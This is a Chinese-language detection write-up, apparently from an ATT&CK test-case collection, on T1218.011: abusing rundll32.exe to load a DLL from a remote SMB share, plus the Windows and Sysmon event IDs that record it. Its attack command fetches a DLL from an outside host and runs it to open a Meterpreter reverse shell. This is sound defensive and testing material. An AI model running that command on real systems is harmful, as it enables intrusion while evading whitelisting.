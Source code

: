 # T1218.011-Win-使用Rundll32.exe执行Payload（白名单）

## 描述

攻击者可能利用**rundll32.exe**调用受信任或恶意动态链接库（DLL），代理执行代码，规避安全工具的检测（MITRE ATT&CK T1218.011）。`rundll32.exe`是Windows内置工具，用于加载DLL并调用指定函数或序数，常用于合法系统操作，因此常被白名单或误报。攻击者可通过`rundll32.exe`加载远程或本地恶意DLL，执行恶意载荷，如Meterpreter反向Shell，实现防御规避、初始访问或持久化。

本案例聚焦于通过`rundll32.exe`调用远程SMB共享中的恶意DLL（如`\\<IP>\share\test.dll,0`），利用Windows SMB协议加载并执行Payload。此技术利用`rundll32.exe`的白名单特性，结合网络文件共享的隐蔽性，增加检测难度。

## 测试案例

### 测试1：使用Rundll32.exe执行远程SMB共享的DLL Payload

攻击者通过`rundll32.exe`加载远程SMB共享中的恶意DLL，触发反向Shell。

**环境要求**：
- 攻击机：Kali Linux（或其他Metasploit支持的系统）
- 靶机：Windows 7（支持Windows 2003及以上）
- 工具：Metasploit（生成Payload）、`rundll32.exe`（系统自带）
- 权限：普通用户（需访问SMB共享的权限）
- 路径：
  - `C:\Windows\System32\rundll32.exe`
  - `C:\Windows\SysWOW64\rundll32.exe`

**攻击命令**（靶机）：
```cmd
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

**说明**：
- `\\192.168.126.146\huwSj\test.dll`：远程SMB共享中的恶意DLL。
- `,0`：调用DLL的导出函数序数（通常为默认入口点）。
- 执行触发Meterpreter反向Shell。

**清理命令**：
```cmd
taskkill /IM rundll32.exe /F
```

## 检测日志

- **Windows安全日志**：
  - Event ID 4688：进程创建，记录`rundll32.exe`的执行（需启用进程跟踪审核）。
  - Event ID 5156：Windows过滤平台（WFP）连接，记录出站网络连接（如TCP 4444）。
  - Event ID 5158：WFP绑定，记录`rundll32.exe`的网络活动。
- **Sysmon日志**：
  - Event ID 1：进程创建，捕获`rundll32.exe`的命令行和父进程信息。
  - Event ID 3：网络连接，记录`rundll32.exe`的SMB（TCP 445）和C2（TCP 4444）连接。
  - Event ID 7：镜像加载，记录加载的DLL（如`test.dll`）。
